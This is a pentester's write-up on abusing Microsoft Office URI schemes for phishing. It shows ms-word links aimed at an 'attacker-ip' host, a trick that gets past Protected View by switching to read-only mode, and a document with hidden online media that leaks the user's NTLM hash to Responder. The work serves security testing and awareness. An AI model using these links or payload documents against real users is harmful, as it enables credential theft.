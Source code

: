 # INTRODUCTION

I was recently reading up on [Microsoft GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) as part of some testing I was doing related to Microsoft Teams and stumbled upon some interesting Microsoft documentation:
[Office URI Schemes | Microsoft Learn](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes) 

The document outlines how Office URIs can be used to open Office application and files in various ways that only requires a click or two from a user. These methods are valuable for Pentesters and System Administrators to understand as they could be abused to target vulnerable users in phishing scenarios (example below).

Microsoft understands that these URI's could be used in nefarious ways, and they have implemented some protections to prevent documents from being opened from untrusted sources, or warn users that the file they are trying to open is coming from an untrusted source.
# TESTING THE METHODS

## PROTECTIONS
Below are two examples of "unsafe" methods that Microsoft Office tries to prevent.

**UNC PATH**
When trying to access an Office URI link containing a UNC path to a file at an untrusted location, Microsoft Word blocks the file from opening and displays this error message:
`ms-word:ofe|u|//attacker-ip/document.docx`
![[images/1.png]]

**The file:// URI**
When using the file:// URI, Word *will* open, but the user gets prompted for warnings, and if Responder is running, they will be asked to enter their credentials. For most users, this would be very suspicious behavior:
`ms-word:ofe|u|file://attacker-ip/document.docx`
![[images/2.png]]

## THE WORK AROUNDS
When using simple http (no certificate required!) Microsoft will open the document with just a banner telling the user that the file is in "PROTECTED VIEW" and that to enable editing, the user just has to click a single button!
`ms-word:ofe|u|http://attacker-ip/job_description.docx`
![[images/3.png]]
When using this method, the payload word document does not send NTLM hashes to the attacker server, until the user clicks the Enable Editing button. Additionally, the banner might make some users wary if the file they just opened was from an untrusted source.

However, this "PROTECTED VIEW" will only be applied under certain conditions, such as files with a MOTW, and specifically when the file is opened for the purposes of editing.
## BYPASSING PROTECTED VIEW

Until now, all of the links we have used, contain the letters "ofe", this stands for `Open File for Editing`, if we replace this with "ofv" (`Open File for Viewing`) the document is opened in Read Only mode. This bypasses the Protected View in Word and the user hash is sent to the attacker server:
`ms-word:ofv|u|http://attacker-ip/questions_form.docx`
![[images/4.png]]
And in Responder we have captured some hashes:
![[images/5.png]]

## ADDITIONAL PROTECTIONS/WARNINGS

Something to consider with these Office URIs is how they are sent to a user. 
A few examples:
 - Microsoft Teams does **not** allow Office URIs as links sent in messages. 
 - Clicking the link in most browsers prompts the user to confirm they want to open Word, Excel, etc.
 - Office products such as Word, Excel, and Outlook do not warn or prompt the user when a link is clicked that opens a document (Thanks Microsoft!).
 - Other products such as PDF viewers vary. Sometimes a warning or prompt is provided, sometimes Office just opens.

# THE PAYLOAD
Okay, you might be wondering "why on earth does opening this document send my NTLM hash to the attacker server?!". This is a valid question, and the answer is that it is due to a "feature" that Microsoft claims they will not fix. *Inserting Online Media.*

This is something I was made aware of when a colleague sent me video of a [talk by Sam Shute](https://www.youtube.com/watch?v=zp5Ds2FYnkU). I highly recommend giving it a watch, in the video he details a method where he inserts media from the web, sets the size to 0x0 pixels and hides it in the footer.
He then saves the document as a .zip file, extracts the contents, and modifies the link to the online image to point to his Responder server with the file:// URI . Save the file, compress the files back into a zip, and rename to .docx.

When the file is opened, MS Word finds the "Online Media" link, and immediately goes out to track down the image using the currently logged in user's account credentials. The user is never told that their credentials were sent out by Word, or that the image failed to load.